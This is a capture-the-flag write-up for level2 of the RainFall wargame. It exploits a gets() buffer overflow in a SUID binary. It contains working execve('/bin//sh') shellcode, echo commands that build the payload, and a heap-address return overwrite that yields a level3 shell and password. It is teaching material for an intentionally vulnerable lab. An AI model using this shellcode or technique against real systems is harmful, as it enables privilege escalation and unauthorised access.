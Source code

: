 # Level 2

## Vulnerability

Buffer overflow

## Context

We find a binary with owner ```level3``` and SUID.
```
level2@RainFall:~$ ls -l
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```

## Solution

Running the binary, it seems to read from stdin, and print what is given.
```
level2@RainFall:~$ ./level2
oh hi
oh hi
```
We get some weird output with longer input, then after a certain length it segfaults.
```
level2@RainFall:~$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaa
level2@RainFall:~$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaa
Segmentation fault (core dumped)
```
When we inspect with gdb we find main calls function ```p```. Function ```p``` includes a call to ```gets()``` which is vulnerable to buffer overflow.
```
level2@RainFall:~$ gdb -q level2
...
(gdb) disas main
...
   0x08048545 <+6>:	call   0x80484d4 <p>
...
(gdb) disas p
...
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
...
```
However, this buffer is stored on the stack, unfortunately function ```p``` checks to make sure the return address isn't in the stack.
```
(gdb) disas p
...
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
...
```
This prevents us from overwriting the return address with and address in the stack, or an environment variable.

However, we could use the heap. ltrace shows the buffer is later copied with strdup. strdup uses malloc which uses the heap.
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7a4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                          = 0
gets(0xbffff6ac, 0, 0, 0xb7e5ec73, 0x80482b5 oh hi!
)               = 0xbffff6ac
puts(" oh hi!" oh hi!
)                                             = 8
strdup(" oh hi!")                                           = 0x0804a008
+++ exited (status 8) +++
```
ltrace also shows us strdup always uses the address ```0x804a008```, this indicates no ASLR (Address Space Layout Randomization).

So let's try to write our malicious shellcode in the heap by writing it in the input prompt. Then write the strdup malloc address on the return address.

Our malicious shellcode simply needs to open a new shell. We find the unix syscall for execve is 11.
```
level2@RainFall:~$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep "execve"
#define __NR_execve		 11
```
Let's create the assembly code to do this, and break it down into bytecode.
```
+----------------+-----------------------+-----------------------+----------------------------------------------+
| Bytecode       | (Intermediate)        | Assembly              | Comments                                     |
+----------------+-----------------------+-----------------------+----------------------------------------------+
| 31 d2          | xor    edx,edx        | xor   edx, edx        | execve 3rd parameter = envp, NULL            |
| 31 c9          | xor    ecx,ecx        | xor   ecx, ecx        | execve 2nd parameter = argv, NULL            |
| 51             | push   ecx            | push  ecx             |                                              |
| 68 2f 2f 73 68 | push   0x68732f2f     | push  '//sh'          | after 3rd push instruction, stack contains:  |
| 68 2f 62 69 6e | push   0x6e69622f     | push  '/bin'          | db '/bin//sh',0,0,0,0                        |
| 31 c0          | xor    eax,eax        | xor   eax, eax        |                                              |
| b0 0b          | mov    al,0xb         | mov   al, 11          | execve syscall                               |
| 89 e3          | mov    ebx,esp        | mov   ebx, esp        | execve 1st parameter = executable (on stack) |
| 83 e4 f0       | and    esp,0xfffffff0 | and   esp, 0xfffffff0 | align stack                                  |
| cd 80          | int    0x80           | int   0x80            | syscall                                      |
+----------------+-----------------------+-----------------------+----------------------------------------------+
```
Lets create our exploit file, starting with our malicious shellcode, adding backslash ```\x``` to write as bytes.
```
level2@RainFall:~$ echo -e -n "\x31\xd2\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x31\xc0\xb0\x0b\x89\xe3\x83\xe4\xf0\xcd\x80" > /tmp/level2_exploit
```
We then want to fill the rest of the buffer with garbage.
```
level2@RainFall:~$ echo -e -n "------------------------------------------------------" >> /tmp/level2_exploit
```
And overwrite the return address with the address of our malicious shellcode, now in the heap.
```
level2@RainFall:~$ echo -e -n "\x08\xa0\x04\x08" >> /tmp/level2_exploit
```
Pipe the exploit into ./level2 stdin. This opens a shell as user ```level3```, where we can cat the level3 password.
```
level2@RainFall:~$ cat /tmp/level2_exploit - | ./level2
[press enter]
...
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
